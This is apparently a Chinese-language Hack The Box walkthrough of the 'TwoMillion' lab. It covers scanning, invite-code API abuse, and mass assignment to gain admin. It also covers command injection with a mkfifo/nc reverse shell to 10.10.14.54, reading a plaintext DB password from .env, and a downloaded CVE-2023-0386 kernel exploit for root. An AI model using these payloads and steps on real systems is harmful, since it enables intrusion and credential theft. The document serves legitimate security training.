


###### tags: `Hack the box` `HTB` `Easy` `Linux`

# TwoMillion
```
┌──(kali㉿kali)-[~/htb]
└─$ rustscan -a 10.129.27.75 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 10.129.27.75:22
Open 10.129.27.75:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack nginx
|_http-title: Did not follow redirect to http://2million.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

加`/etc/hosts`
```
┌──(kali㉿kali)-[~/htb]
└─$ sudo nano /etc/hosts

10.129.27.75    2million.htb
```

buster
```
┌──(kali㉿kali)-[~/htb]
└─$ ffuf -u http://2million.htb/FUZZ -w /home/kali/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fw 5

home                    [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 307ms]
login                   [Status: 200, Size: 3704, Words: 1365, Lines: 81, Duration: 307ms]
register                [Status: 200, Size: 4527, Words: 1512, Lines: 95, Duration: 300ms]
api                     [Status: 401, Size: 0, Words: 1, Lines: 1, Duration: 292ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 295ms]
404                     [Status: 200, Size: 1674, Words: 118, Lines: 46, Duration: 294ms]
0404                    [Status: 200, Size: 1674, Words: 118, Lines: 46, Duration: 295ms]
invite                  [Status: 200, Size: 3859, Words: 1363, Lines: 97, Duration: 292ms]
```

查看`http://2million.htb/register`說要有`invite code`，前往`http://2million.htb/invite`發現隨便key是不能成功的，打開`source code`看看有一個`/js/inviteapi.min.js`
```javascript
<script src="/js/htb-frontend.min.js"></script>
<script defer src="/js/inviteapi.min.js"></script>
```

利用[de4js](https://lelinhtinh.github.io/de4js/)進行decode
```
eval(function(p, a, c, k, e, d) {
    e = function(c) {
        return c.toString(36)
    };
    if (!''.replace(/^/, String)) {
        while (c--) {
            d[c.toString(a)] = k[c] || c.toString(a)
        }
        k = [function(e) {
            return d[e]
        }];
        e = function() {
            return '\\w+'
        };
        c = 1
    };
    while (c--) {
        if (k[c]) {
            p = p.replace(new RegExp('\\b' + e(c) + '\\b', 'g'), k[c])
        }
    }
    return p
}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}', 24, 24, 'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'), 0, {}))
```

可以解出這個
```javascript
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
        }
    })
}
```

對`/api/v1/invite/how/to/generate`進行`curl`看看，會出現一個用`ROT13`加密的東西
```
┌──(kali㉿kali)-[~/htb]
└─$ curl -X POST http://2million.htb/api/v1/invite/how/to/generate
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```

利用[dCode](https://www.dcode.fr/rot-13-cipher)decode



```
In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate
```

按照指示利用`POST`，接著進行`base64`decode就可以得到一個`invite code`
```
┌──(kali㉿kali)-[~/htb]
└─$ curl -X POST http://2million.htb/api/v1/invite/generate  
{"0":200,"success":1,"data":{"code":"N09NSEEtVzg3TEctNVFNS0MtOFU4VFU=","format":"encoded"}}

┌──(kali㉿kali)-[~/htb]
└─$ echo "N09NSEEtVzg3TEctNVFNS0MtOFU4VFU=" | base64 -d
7OMHA-W87LG-5QMKC-8U8TU
```



註冊登入之後，在`http://2million.htb/home/access`可以點擊`Connection Pack`，用burp攔下來之後看看，會下載一個`opvn`檔案
```
GET /api/v1/user/vpn/generate HTTP/1.1

Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/home/access
Cookie: PHPSESSID=fa5c0cdn3oncsoe8f8bq2s70k0
Upgrade-Insecure-Requests: 1
```

嘗試看看送`request`給`api`(cookies要是登入的)
```
GET /api HTTP/1.1

{"\/api\/v1":"Version 1 of the API"}
```

```
GET /api/v1 HTTP/1.1

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

利用送`PUT /api/v1/admin/settings/update`看看，會得到`Invalid content type`
```
PUT /api/v1/admin/settings/update HTTP/1.1

{"status":"danger","message":"Invalid content type."}
```

不知道感覺burp怪怪的，換用curl嘗試，成功之後看到說少了參數`email`
```
┌──(kali㉿kali)-[~/htb]
└─$ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=fa5c0cdn3oncsoe8f8bq2s70k0" --header "Content-Type: application/json" | jq                    
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    56    0    56    0     0     95      0 --:--:-- --:--:-- --:--:--    95
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

加入參數
```
PUT /api/v1/admin/settings/update HTTP/1.1

Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/v1
Cookie: PHPSESSID=fa5c0cdn3oncsoe8f8bq2s70k0
Upgrade-Insecure-Requests: 1
Content-Type: application/json  
Content-Length: 42

{
    "email":         "admin@gmail.com"
}

{"status":"danger","message":"Missing parameter: is_admin"}
```

說還是缺了`is_admin`然後加了之後說`is_admin`要`0`或`1`
```
PUT /api/v1/admin/settings/update HTTP/1.1

{
    "email":"admin@gmail.com",
    "is_admin":"true"
}

{"status":"danger","message":"Variable is_admin needs to be either 0 or 1."}
```

```
PUT /api/v1/admin/settings/update HTTP/1.1

{
    "email":"admin@gmail.com",
    "is_admin" :1
}

{"id":13,"username":"admin","is_admin":1}
```

看起來成功了，再用`verify`來看看，感覺成功ㄌ
```
┌──(kali㉿kali)-[~/htb]
└─$ curl -X GET http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=fa5c0cdn3oncsoe8f8bq2s70k0" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    16    0    16    0     0     27      0 --:--:-- --:--:-- --:--:--    27
{
  "message": true
}
```

最後用`/api/v1/admin/vpn/generate`要參數`username`
```
┌──(kali㉿kali)-[~/htb]
└─$ curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=fa5c0cdn3oncsoe8f8bq2s70k0" --header "Content-Type: application/json" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    59    0    59    0     0    100      0 --:--:-- --:--:-- --:--:--   100
{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

來塞`command injection` 
```
POST /api/v1/admin/vpn/generate HTTP/1.1

{
	"username":"admin;id;"
}

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

發現可成功，開個nc
```
┌──(kali㉿kali)-[~/htb]
└─$ rlwrap -cAr nc -nvlp4444

POST /api/v1/admin/vpn/generate HTTP/1.1

Host: 2million.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://2million.htb/v1
Cookie: PHPSESSID=fa5c0cdn3oncsoe8f8bq2s70k0
Upgrade-Insecure-Requests: 1
Content-Type: application/json  
Content-Length: 71

{
    "username":"admin;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.54 4444 >/tmp/f;"
}
```

得reverse，我先用linpeas
```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@2million:~/html$ whoami
www-data
```

找到`admin`的密碼`SuperDuperPass123`，切成admin之後，在`/home/admin`可得user.txt
```
www-data@2million:/tmp$ wget 10.10.14.54/linpeas.sh
www-data@2million:/tmp$ chmod +x linpeas.sh
www-data@2million:/tmp$ ./linpeas.sh

╔══════════╣ Analyzing Env Files (limit 70)
-rw-r--r-- 1 root root 87 Jun  2  2023 /var/www/html/.env                                                               
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

www-data@2million:/tmp$ su admin
Password: SuperDuperPass123

admin@2million:~$ cat user.txt
129704491b89a29de7661381695d6412
```

另外linpeas還列出一個email的部分
```
╔══════════╣ Searching installed mail applications
                                                                                                                        
╔══════════╣ Mails (limit 50)
      271      4 -rw-r--r--   1 admin    admin         540 Jun  2  2023 /var/mail/admin                                 
      271      4 -rw-r--r--   1 admin    admin         540 Jun  2  2023 /var/spool/mail/admin

admin@2million:/tmp$ cat /var/mail/admin
cat /var/mail/admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

google那個漏洞可以找到[CVE-2023-0386](https://github.com/Fanxiaoyao66/CVE-2023-0386)，用他可得root，在/root得root.txt
```
admin@2million:/tmp$ wget 10.10.14.54/exp.sh
admin@2million:/tmp$ wget 10.10.14.54/fuse.c
admin@2million:/tmp$ chmod +x exp.sh

admin@2million:/tmp$ /bin/bash exp.sh
/bin/bash exp.sh
[+] Create dir
[+] Compile fuse.c
[+] Create fuse file system
[+] Create overlayFS
[+] Copy Up
[+] You are root!
# python3 -c 'import pty; pty.spawn("/bin/bash")'

root@2million:/root# cat root.txt
d370cc10cf988d5568ff3ae2d207a008
```